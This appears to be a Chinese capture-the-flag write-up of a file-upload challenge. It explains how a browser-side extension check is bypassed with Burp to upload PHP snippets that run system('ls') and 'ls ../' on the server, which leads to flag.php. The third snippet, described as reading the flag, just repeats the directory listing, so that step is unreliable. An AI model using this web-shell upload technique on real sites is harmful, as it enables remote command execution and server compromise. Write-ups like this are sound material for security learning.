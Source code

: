 # upload1
## 题目描述
暂无
## 思路
http://220.249.52.133:54120  
点开题目链接，是一个文件上传的界面，且根据题目名，应该是要考察文件上传漏洞：  
![avatar](./picture/upload1_1.png)  
先随便上传几个文件，发现有检测，只能上传图片：  
![avatar](./picture/upload1_2.png)  
上传一张图片，看看啥效果：  
![avatar](./picture/upload1_3.png)  
是一个类似于 url 后缀的地址，看看能不能访问：  
http://220.249.52.133:54120/upload/1599639834.test.jpg  
![avatar](./picture/upload1_4.png)  
但是访问 upload 这个文件夹却被拒绝了：  
![avatar](./picture/upload1_5.png)  
查看一下之前的网页源码，发现了过滤源码，是前端来检查后缀名是否是 jpg 或者 png：  
![avatar](./picture/upload1_6.png)  
既然如此，我们先写一段 php 代码：  
```php
<?php
system("ls");
?>
```
然后把文件名改为 xxx.jpg 的格式，上传，并用 burp 拦截数据包，给后缀改为正常后缀：  
![avatar](./picture/upload1_7.png)  
接着访问这个 php 文件：  
http://220.249.52.133:54120/upload/1599638657.jpg.php  
![avatar](./picture/upload1_8.png)  
全都是些之前上传的文件，且没有文件夹，那么我们看看父目录：  
```php
<?php
system("ls ../");
?>
```
同样需要绕过前端检查：  
![avatar](./picture/upload1_9.png)  
http://220.249.52.133:54120/upload/1599638812.12.php  
![avatar](./picture/upload1_10.png)  
芜湖，有 flag.php，那么我们再整一个访问该文件的 php：  
```php
<?php
system("ls ../");
?>
```
绕过前端检查：  
![avatar](./picture/upload1_11.png)  
http://220.249.52.133:54120/upload/1599638910.12.php  
打开网页发现是空的，我还以为命令输错了……确认过后，应该是没错，然后查看网页源码，发现了 flag：  
view-source:http://220.249.52.133:54120/upload/1599638910.12.php  
![avatar](./picture/upload1_12.png)  
